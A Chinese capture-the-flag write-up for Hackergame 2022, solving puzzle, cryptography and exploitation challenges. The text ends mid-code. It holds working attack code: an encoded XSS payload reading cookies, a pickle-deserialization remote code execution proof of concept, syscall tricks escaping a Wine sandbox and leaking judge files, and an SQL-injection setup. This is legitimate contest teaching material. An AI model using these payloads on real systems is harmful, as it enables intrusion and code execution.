




# Writeup

本 Writeup 将同时发布于[我的博客](https://mcfx.us/posts/2022-10-29-hackergame-2022-writeup/)，可以去博客进行一个 IP+1（

## 签到

打开 F12，给 `const TIME_LIMITS = [2, 1, 0.1, 0];` 这句下个断点，然后可以在旁边把他的值改掉，之后就很简单了。

## 猫咪问答喵

### 1.

https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm

### 2.

https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/

但是 slides 里的图片不太能看出是什么，可以在视频中听到名字。

### 3.

搜索出的结果有各种说法，比如 10、12、24、28、52……，经过手动尝试发现 12 是对的。

### 4.

可以先找到一篇 lwn 上的文章：https://lwn.net/Articles/882799/

然后找到对应的 patch：https://lwn.net/ml/linux-kernel/20220127000724.15106-1-ariadne@dereferenced.org/

但是我不知道怎么根据 patch 找到 commit id，于是干脆去 GitHub 查看该文件的 blame 了：https://github.com/torvalds/linux/blame/master/fs/exec.c

### 5.

盲猜一个 sdf.org，然后对了。

### 6.

首先不难搜到 https://netfee.ustc.edu.cn/faq/，但是这个似乎不是首次实施。搜索“关于实行新的网络费用分担办法的通知”，可以找到 https://ustcnet.ustc.edu.cn/2010/1210/c11109a210869/page.htm。在这个网站上可以翻到之前的通知 https://ustcnet.ustc.edu.cn/2003/0301/c11109a210890/page.htm。

## 家目录里的秘密

flag1 可以用 `grep -rn "flag{"` 找到。

flag2 推测是 rclone 的 ftp 密码。把配置拷出来，用 nc 手动模拟一个 ftp 服务器就能看到 rclone 传过来的密码了：

```plain
# nc -lvp 9999
Connection from 127.0.0.1:62539
220 Welcome to TEST FTP
USER user
331 Password required.
PASS flag{get_rclone_password_from_config!_2oi3dz1}
```

## HeiLang

```python
cmds = '''那一大坨'''
for line in cmds.split('\n'):
    x, y = line.split(' = ')
    for z in map(lambda x: int(x.strip()), x[2:-1].split('|')):
        a[z] = int(y)
```

把那一大坨换成这个就好了。

## Xcaptcha

```js
for (var i = 1; i <= 3; i++) {
    a = document.getElementById('captcha' + i)
    b = a.parentElement.children[0].innerText
    c = b.substr(0, b.length - 6).split('+')
    a.value = (BigInt(c[0]) + BigInt(c[1])).toString()
}
document.getElementById('submit').click();
```

往 F12 里面粘贴这个，手速快点就行。

## 旅行照片 2.0

第一题都可以在 EXIF 里直接找到。

第二题，可以看到建筑上有一行字 `WELCOME TO ZOZOMARINE STADIUM`，搜索可得到地点，而这个角度的酒店似乎也只有一家。至于手机型号，通过 EXIF 里的相机型号，可以搜索出 CPU 型号，再结合品牌就能确定（同时可以看摄像头排布来辅助确认）。

航班可以在 [Flightradar24](https://www.flightradar24.com/) 上开通会员然后进行一个回放。


## 猜数字

经典技巧，猜 NaN 即可。（不过需要手动发请求，因为网页上写死了要猜的数，不是根据输入来的）

## LaTeX 机器人

第一问：`\input{/flag1}`。

第二问，可以搜索到有一个 `\verbatiminput` 命令，但是需要 `verbatim` 这个宏包。虽然不能 `\usepackage`，但是可以把他的内容全部粘进来。

```latex
$$ \makeatletter
这里放 verbatim.sty 的内容，记得删掉行末的 %
\makeatother
\verbatiminput{/flag2} $$
```

## Flag 的痕迹

看到题目说“赶紧改好”，本来想枚举版本号（http://202.38.93.111:15004/doku.php?id=start&rev=时间戳），但是都枚举到了一天前都没有。

后来看到这个页面：http://202.38.93.111:15004/doku.php?id=start&do=diff，于是就直接拿到了 flag，并且也解释了为什么没枚举出来。。

## 安全的在线测评

第一问可以直接把答案文件读出来然后输出，然后看到 flag 才发现，原来预期解大概是通过 `#include "../data/static.out"` 直接读出来。

第二问大概只能用编译器读文件了，经过一番搜索，发现可以在内嵌汇编里面使用 `.incbin` 直接把原始的 binary 嵌进文件，于是就可以做了。

```c
#include<stdio.h>
#include<string.h>
#include<unistd.h>

unsigned _st=
#include "../data/static.in"
,_d0=
#include "../data/dynamic0.in"
,_d1=
#include "../data/dynamic1.in"
,_d2=
#include "../data/dynamic2.in"
,_d3=
#include "../data/dynamic3.in"
,_d4=
#include "../data/dynamic4.in"
;

int main(){
    char b[1000];
    unsigned a=0;
    scanf("%s",b);
    int len=strlen(b);
    for(int i=0;i<len;i++)a=a*10+(b[i]-48);
    int cas;
    if(a==_st){
        const char*v[10]={"/bin/cat","./data/static.out",NULL},*e[1]={NULL};
        execve(v[0],v,e);
    }else{
        if(a==_d0)cas=0;
        if(a==_d1)cas=1;
        if(a==_d2)cas=2;
        if(a==_d3)cas=3;
        if(a==_d4)cas=4;
    }
    //return 0;
    char*output;
    __asm volatile(
        "jmp work\n"
        "out0:\n call outa0\n outa0:\n popq %%rax \n addq $6,%%rax \n ret \n .incbin \"data/dynamic0.out\"\n"
        "out1:\n call outa1\n outa1:\n popq %%rax \n addq $6,%%rax \n ret \n .incbin \"data/dynamic1.out\"\n"
        "out2:\n call outa2\n outa2:\n popq %%rax \n addq $6,%%rax \n ret \n .incbin \"data/dynamic2.out\"\n"
        "out3:\n call outa3\n outa3:\n popq %%rax \n addq $6,%%rax \n ret \n .incbin \"data/dynamic3.out\"\n"
        "out4:\n call outa4\n outa4:\n popq %%rax \n addq $6,%%rax \n ret \n .incbin \"data/dynamic4.out\"\n"
        "work:\n"
        "cmpq $0,%1\n"
        "jne not0\n"
        "call out0\n"
        "jmp final\n"
        "not0:\n"
        "cmpq $1,%1\n"
        "jne not1\n"
        "call out1\n"
        "jmp final\n"
        "not1:\n"
        "cmpq $2,%1\n"
        "jne not2\n"
        "call out2\n"
        "jmp final\n"
        "not2:\n"
        "cmpq $3,%1\n"
        "jne not3\n"
        "call out3\n"
        "jmp final\n"
        "not3:\n"
        "call out4\n"
        "final:\n"
        "movq %%rax, %0\n"
        :"=r"(output):"r"((long)cas):"rax"
    );
    write(1,output,310);
}
```

## 线路板

尝试了几个软件，最后用 GerbView 成功打开了这些文件。在 `ebaz_sdr-F_Cu.gbr` 中，可以看到被藏起来的 flag。用 Inspect Items 功能选中一个覆盖 flag 的圆，然后随机改了一些参数之后，就能看到 flag 了。。

## Flag 自动机

拖进 IDA，不难发现，`pfnSubclass` 就是把按钮移走的函数，可以把这个条件判断改掉。

以及 `sub_401510` 就是输出 flag 的函数，把 114514 同样改掉。之后再运行就能得到 flag 了。

## 微积分计算小练习

简单 xss。

```python
> base64.b64encode(b'0:')
b'MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4='
```

http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4=

## 杯窗鹅影

Wine 里面可以直接通过 `syscall` 来执行 Linux 的系统调用。

Flag1：

```c
#include <stdio.h>

char fn[100]="/flag1",buf[1001];
long long fd;

int main() {
    printf("Hello, world!\n");
    __asm volatile(
        "movq %1,%%rdi\n"
        "movq $2,%%rax\n"
        "movq $0,%%rsi\n"
        "movq $0,%%rdx\n"
        "syscall\n"
        "movq %%rax,%0\n"
        :"=r"(fd):"r"(fn):"rax","rsi","rdi","rdx"
    );
    printf("fd=%d\n",fd);
    printf("%02x%02x\n",(unsigned char)(buf[0]),(unsigned char)(buf[1]));
    __asm volatile(
        "movq %0,%%rsi\n"
        "movq %1,%%rdi\n"
        "movq $0,%%rax\n"
        "movq $1000,%%rdx\n"
        "syscall\n"
        ::"r"(buf),"r"(fd):"rax","rsi","rdi","rdx"
    );
    printf("%02x%02x\n",(unsigned char)(buf[0]),(unsigned char)(buf[1]));
    buf[1000]=0;
    puts(buf);
    return 0;
}
```

Flag2：

```c
#include <stdio.h>

const char fn[100]="/readflag";
const char*args[]={fn,NULL};

int main() {
    printf("Hello, world!\n");
    __asm volatile(
        "movq %0,%%rdi\n"
        "movq %1,%%rsi\n"
        "movq $59,%%rax\n"
        "movq %%rsi,%%rdx\n"
        "addq $8,%%rdx\n"
        "syscall\n"
        ::"r"(fn),"r"(args):"rax","rsi","rdi","rdx"
    );
    return 0;
}
```

## 蒙特卡罗轮盘赌

注意到使用的种子是 `(unsigned)time(0) + clock()`，而 `clock()` 在程序刚开始运行时较小，于是可以枚举可能的种子，提前生成好 5 次游戏的结果。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>

double rand01()
{
	return (double)rand() / RAND_MAX;
}

int main(int argc,char**argv)
{
	srand(atoi(argv[1]));
	int games = 5;
	int win = 0;
	int lose = 0;
	char target[20];
	char guess[2000];
	for (int i = games; i > 0; i--) {
		int M = 0;
		int N = 400000;
		for (int j = 0; j < N; j++) {
			double x = rand01();
			double y = rand01();
			if (x*x + y*y < 1) M++;
		}
		double pi = (double)M / N * 4;
		printf("%1.5f\n", pi);
	}
	return 0;
}
```

```python
import os, time, subprocess

s = int(time.time())
f = {}
for i in range(5000):
    f[s + i] = subprocess.getoutput('./t2 %d' % (s + i)).split()
open('data.txt', 'w').write(repr(f))
```

```python
from pwn import *

r = remote('202.38.93.111', 10091)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())
g = []
for i in range(2):
    r.recvuntil(b'\xef\xbc\x9a')
    r.sendline(b'2.33333')
    r.recvuntil(b'\xef\xbc\x9a')
    g.append(r.recvline().strip().decode())

for _, o in eval(open('data.txt').read()).items():
    if g[0] == o[0] and g[1] == o[1]:
        break
for i in range(2, 5):
    r.recvuntil(b'\xef\xbc\x9a')
    r.sendline(o[i])
r.interactive()
```

## 二次元神经网络

`torch.load` 会调用 pickle 反序列化，于是可以 RCE。

```python
import io, os, json, base64

import torch
import matplotlib
import matplotlib.image


pixels = torch.load("dataset/pixels_10.pt")
n_samples = 10
predictions = pixels.clamp(0, 1)

gen_imgs = []
for i in range(n_samples):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

result = json.dumps({"gen_imgs_b64": gen_imgs})

poc = '''class genpoc(object):
    def __reduce__(self):
        s = "open('/tmp/result.json','w').write('XXX')"
        return (eval, (s,))

poc = pickle.dumps(genpoc())
open('archive/data.pkl', 'wb').write(poc)'''

open('gen_poc.py', 'w').write(poc.replace('XXX', result.replace('"', '\\"')))
os.system('python gen_poc.py')
```

## 惜字如金

### HS384

枚举被删掉的字符。

```python
from hashlib import sha384

cnt = 0
for cnt_e in range(2):
    for cnt_e2 in range(2):
        uu = cnt_e + cnt_e2
        for cnt_s in range(29 - uu):
            for cnt_t in range(29 - uu - cnt_s):
                cur = 29 - uu - cnt_s - cnt_t
                for cnt_c in range(cur):
                    for cnt_d in range(cur - cnt_c):
                        for cnt_c2 in range(cur - cnt_c - cnt_d):
                            for cnt_n in range(cur - cnt_c - cnt_d - cnt_c2):
                                s = 'u' + 's' * (cnt_s + 1) + 't' * (cnt_t + 1) + 'c' * (cnt_c + 1) + 'e' * cnt_e2 + '.e' + 'd' * (cnt_d + 1) + 'u.' + 'c' * (cnt_c2 + 1) + 'n' * (cnt_n + 1) + 'e' * cnt_e
                                assert len(s) <= 39
                                if len(s) == 39:
                                    cnt += 1
                                    h = sha384(s.encode()).hexdigest()
                                    if '62074271866' in h:
                                        print(s)
```

### RS384

设 `A = (1 << 260 | 1 << 130 | 1), B = 31 * (1 << 255 | 1 << 125)`，则 $p=Ax+B$，其中 $x<2^{130}$。

这个可以用 Coppersmith 解，把 https://github.com/mimoo/RSA-and-LLL-attacks clone 下来，改改参数即可。

```python
N = 255877945206268685758225801673342992785361646269587137135214853754886550982035142794210497165877879580039847242541662956641303821238094690165291113510002309824919965575769641924765055087675446404464357056205595528275052777855000807

F.<x> = PolynomialRing(Zmod(N), implementation='NTL')
A = (1 << 260 | 1 << 130 | 1)
B = 31 * (1 << 255 | 1 << 125)

pol = x + int(B * invert(A, N) % N)
```

## 不可加密的异世界

### 疏忽的神

用 CBC，可以反推出 iv。

```python
from Crypto.Cipher import AES, DES
from Crypto.Util.Padding import pad, unpad


def xor(a, b):
    return bytes(map(lambda x, y: x ^ y, a, b))


keys = b'\0' * 16
msg = pad(b'1Open the door!', 16)
aes = AES.new(keys, AES.MODE_CBC, keys)
t2 = xor(msg, aes.decrypt(msg))
aes2 = AES.new(keys, AES.MODE_CBC, t2)
assert aes2.encrypt(msg) == msg
print((keys + t2).hex())
print(msg.hex())
```

### 心软的神

多往前反推几个块。

```python
from Crypto.Cipher import AES, DES
from Crypto.Util.Padding import pad, unpad
from pwn import *
context.log_level = 'debug'


def xor(a, b):
    return bytes(map(lambda x, y: x ^ y, a, b))


r = remote('202.38.93.111', 10110)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())

r.recvuntil('choice: ')
r.sendline('2')

r.recvuntil('name: ')
r.sendline('1')
r.recvuntil('> algo: ')
r.sendline('AES')
r.recvuntil('> mode: ')
r.sendline('CBC')

r.recvuntil('you_pass : ')
s = bytes.fromhex(r.recvline().strip().decode())

keys = b'\0' * 16
aes = AES.new(keys, AES.MODE_ECB)

for i in range(0, len(s), 16):
    tmp = s[i:i + 16]
    for j in range(i, -1, -16):
        tmp = xor(aes.decrypt(tmp), s[j:j + 16])
    aes2 = AES.new(keys, AES.MODE_CBC, tmp)
    assert aes2.encrypt(s)[i:i + 16] == s[i:i + 16]
    r.sendlineafter('hex keys: ', (keys + tmp).hex())
r.interactive()
```

### 严苛的神

DES 存在弱密钥使得任意消息被加密两次都会变回去。于是只需要构造 CRC128，这个可以用线性基做。

```python
from Crypto.Cipher import AES, DES
from magic_box import crc128

v = [(0, 0)] * 128

for i in range(128):
    t = (1 << i).to_bytes(16, 'big')
    x = crc128(t) ^ ((1 << 128) - 1)
    y = 1 << i
    for j in range(128):
        if x >> j & 1:
            if v[j][0]:
                x ^= v[j][0]
                y ^= v[j][1]
            else:
                v[j] = (x, y)
                x = 0
                break
    assert x == 0

x = 0x0101010101010101 ^ ((1 << 128) - 1)
y = 0
for i in range(128):
    if x >> i & 1:
        x ^= v[i][0]
        y ^= v[i][1]
assert x == 0
r = y.to_bytes(16, 'big')
print(r.hex())
print(hex(crc128(r)))
```

## 置换魔群

### 置换群上的 RSA

在 $\bmod \text{lcm}(1,2,\dots,1024)$ 下求逆元即可。

```python
from permutation_group import permutation_element, permutation_group
from gmpy2 import invert
from pwn import *
from ast import literal_eval


def fac_lcm(n):
    res = [0] * (n + 1)
    for i in range(1, n + 1):
        t = i
        j = 2
        while j * j <= t:
            if t % j == 0:
                c = 0
                while t % j == 0:
                    c += 1
                    t //= j
                res[j] = max(res[j], c)
            j += 1
        if t > 1:
            res[t] = max(res[t], 1)
    r = 1
    for i in range(1, n + 1):
        if res[i]:
            r *= pow(i, res[i])
    return r


d = int(invert(65537, fac_lcm(1 << 10)))
print(d.bit_length())

r = remote('202.38.93.111', 10114)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())
r.sendlineafter('choice: ', '1')
for i in range(15):
    print(i)
    r.recvuntil('here: \n')
    s = literal_eval(r.recvline().strip().decode())
    c = permutation_element(len(s), s)**d
    r.sendline(str(c))
r.interactive()
```

### 置换群上的 DH

可以对每个环单独求离散对数，然后用中国剩余定理合并。

```python
from permutation_group import permutation_element, permutation_group
from random import seed, randint
from math import lcm
from pwn import *
from ast import literal_eval


def build(a, b):
    r = list(range(1, n + 1))
    for i in a:
        r[i - 1] = b.permutation_list[i - 1]
    return permutation_element(n, r)


def rem_brute(mod1, rem1, mod2, rem2):
    mod = lcm(mod1, mod2)
    for i in range(0, mod, mod1):
        if (i + rem1) % mod2 == rem2:
            return mod, i + rem1
    assert False


r = remote('202.38.93.111', 10114)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())
r.sendlineafter('choice: ', '2')
for i in range(15):
    print(i)
    r.recvuntil('n = ')
    n = int(r.recvuntil(',')[:-1])
    r.recvuntil('g = ')
    g = permutation_element(n, literal_eval(r.recvline().strip().decode()))
    r.recvuntil('key = ')
    y = permutation_element(n, literal_eval(r.recvline().strip().decode()))
    mod = 1
    rem = 0
    for s in g.standard_tuple:
        g1 = build(s, g)
        y1 = build(s, y)
        t = build([], None)
        for c in range(len(s)):
            if t.permutation_list == y1.permutation_list:
                break
            t *= g1
        assert t.permutation_list == y1.permutation_list
        mod, rem = rem_brute(mod, rem, len(s), c)
    r.sendline(str(rem))
r.interactive()
```

### 置换群上的超大离散对数

需要找两个排列，使得阶的 lcm 最大。显然互质是最优的，然后就是看怎么分配排列上的环。每个环的长度要么是质数，要么是质数的幂。可以写个 DP。

```cpp
#include<bits/stdc++.h>

typedef double lf;
template<typename T>bool repr(T&a,T b){return a<b?a=b,1:0;}

const int N=2055;

lf f[N][N],g[N][N];

bool isprime(int x)
{
	for(int i=2;i*i<=x;i++)if(x%i==0)return 0;
	return 1;
}

struct from
{
	short s[N][N];
	from(){memset(s,0,sizeof s);}
	short*operator[](const int x){return s[x];}
};

from*h[N];

int main(int argc,char**argv)
{
	int n=atoi(argv[1]);
	std::vector<int>vs;
	for(int i=2;i<=n;i++)if(isprime(i))
	{
		vs.push_back(i);
		h[i]=new from();
		from&hi=*h[i];
		for(int si=i;si<=n;si*=i)
		{
			lf v=log(si);
			for(int j=0;j<=n;j++)
				for(int k=0;k<=n;k++)
				{
					if(j>=si&&repr(g[j][k],f[j-si][k]+v))hi[j][k]=si<<1;
					if(k>=si&&repr(g[j][k],f[j][k-si]+v))hi[j][k]=si<<1|1;
				}
		}
		memcpy(f,g,sizeof f);
	}
	int x=n,y=n;
	std::vector<int>sx,sy;
	std::reverse(vs.begin(),vs.end());
	for(int i:vs)
	{
		int t=(*h[i])[x][y];
		if(t==0)continue;
		int a=t>>1;
		if(t&1)
		{
			y-=a;
			sy.push_back(a);
		}
		else
		{
			x-=a;
			sx.push_back(a);
		}
	}
	assert(x>=0&&y>=0);
	for(int i:sx)printf("%d ",i);puts("");
	for(int i:sy)printf("%d ",i);puts("");
}
```

```python
from permutation_group import permutation_element, permutation_group
from random import seed, randint
from math import lcm
from pwn import *
from ast import literal_eval
import subprocess


def build(a, b):
    r = list(range(1, n + 1))
    for i in a:
        r[i - 1] = b.permutation_list[i - 1]
    return permutation_element(n, r)


def rem_brute(mod1, rem1, mod2, rem2):
    mod = lcm(mod1, mod2)
    for i in range(0, mod, mod1):
        if (i + rem1) % mod2 == rem2:
            return mod, i + rem1
    assert False


r = remote('202.38.93.111', 10114)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())
r.sendlineafter(b'choice: ', b'3')
for i in range(15):
    print(i)
    r.recvuntil(b'n = ')
    n = int(r.recvline())
    print(n)
    r.recvuntil(b'is ')
    pri_bound = int(r.recvline())
    print(pri_bound)
    sa, sb = map(lambda x: list(map(int, x.split())), subprocess.getoutput('./a %d' % n).split('\n')[:2])
    assert sum(sa) <= n and sum(sb) <= n
    bound = 1
    for x in sa + sb:
        bound *= x
    print(bound)
    mod = 1
    rem = 0
    for ss in [sa, sb]:
        pm = list(range(1, n + 1))
        cur = 1
        for x in ss:
            for j in range(x):
                pm[cur + j - 1] = cur + (j + 1) % x
            cur += x
        g = permutation_element(n, pm)
        r.recvuntil(b'(a list): ')
        r.sendline(str(g).encode())
        r.recvuntil(' : ')
        y = permutation_element(n, literal_eval(r.recvline().strip().decode()))
        for s in g.standard_tuple:
            g1 = build(s, g)
            y1 = build(s, y)
            t = build([], None)
            for c in range(len(s)):
                if t.permutation_list == y1.permutation_list:
                    break
                t *= g1
            assert t.permutation_list == y1.permutation_list
            mod, rem = rem_brute(mod, rem, len(s), c)
    r.sendline(str(rem))
r.interactive()
```

## 光与影

在 `fragment-shader.js` 里面可以看到大量坐标，盲猜这些坐标表示了 flag，于是写脚本提取并显示：

```python
s = open('1_files/fragment-shader.js.download').read()
res = ''
for i in range(1, 5):
    a = s.find('t%dSDF' % i)
    b = s.find('}', a)
    mx = 0
    my = 0
    r = set()
    for t in s[a:b].split('vec3(')[1:]:
        x, y, z = map(int, t.split(')', 1)[0].split(','))
        mx = max(mx, x)
        my = max(my, y)
        r.add((x, y))
    for i in range(my + 1):
        u = ''
        for j in range(mx + 1):
            u += 'O' if (j, my - i) in r else ' '
        res += u + '\n'
    res += '\n'
open('res.txt', 'w').write(res)
```

## 矩阵之困

分析一下这坨式子，可以发现，假如把 `data` 写成三个 $16\times 48$ 的矩阵 $A,B,C$，那么就是要求 $\left| a_{4i+j}\cdot b_{4j+k}\cdot c_{4i+k}\right|=1$，而其他的 $\left|a_x\cdot b_y\cdot c_z\right|$ 都是 $0$。

这也就意味着，对于三个 $4\times 4$ 的矩阵 $D,E,F$，设
$$
\begin{align*}
x_{u}&=\sum_{i,j} d_{i,j}a_{4i+j,u}\\
y_{u}&=\sum_{j,k} e_{j,k}b_{4j+k,u}\\
\text{Let }f_{i,k}&=\sum_u c_{4i+k,u}x_uy_u
\\&=
\sum_u c_{4i+k,u}\sum_{i',j_0}d_{i',j_0}a_{4i'+j_0,u}\sum_{j_1,k'}e_{j_1,k'}b_{4j_1+k',u}
\\&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\sum_u a_{4i'+j_0,u}b_{4j_1+k',u}c_{4i+k,u}
\\&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\left| a_{4i'+j_0}\cdot b_{4j_1+k'}\cdot c_{4i+k}\right|
\\&=\sum_{i',j_0}\sum_{j_1,k'}d_{i',j_0}e_{j_1,k'}\left[i=i'\text{ and }k=k'\text{ and }j_0=j_1\right]
\\&=\sum_j d_{i,j}e_{j,k}
\end{align*}
$$
即 $F=DE$，而我们只需要求 $x_uy_u$ 这样的乘法，也就是用 48 次乘法完成了这个 $4\times 4$ 的矩乘。

搜索到 https://math.stackexchange.com/questions/578342/number-of-elementary-multiplications-for-multiplying-4x4-matrices，但是第一条回答不能直接用，因为他涉及了一个矩阵内部元素的乘法。

而下面第二条回答给出了一个仅需 47 次乘法的新研究，并且还给出了一个和题目所需的格式基本相同的 01 矩阵。稍微变换一下即可提交。

## 你先别急

手动测试可以发现，没 select 到东西就会变成最高难度的验证码。

可以接入一个验证码识别 api，然后包装一下他的服务，就能用 sqlmap 扫了。

```python
import base64, requests
from flask import Flask, request


def checkcode(s):
    header = {'Authorization': 'xxx'}
    data = {
        'img_base64': s,
    }
    return requests.post('https://xxx', headers=header, json=data).json()['data']['yzm']


header = {
    'Cookie': 'xxx',
}

app = Flask(__name__)


@app.route('/qry')
def qry():
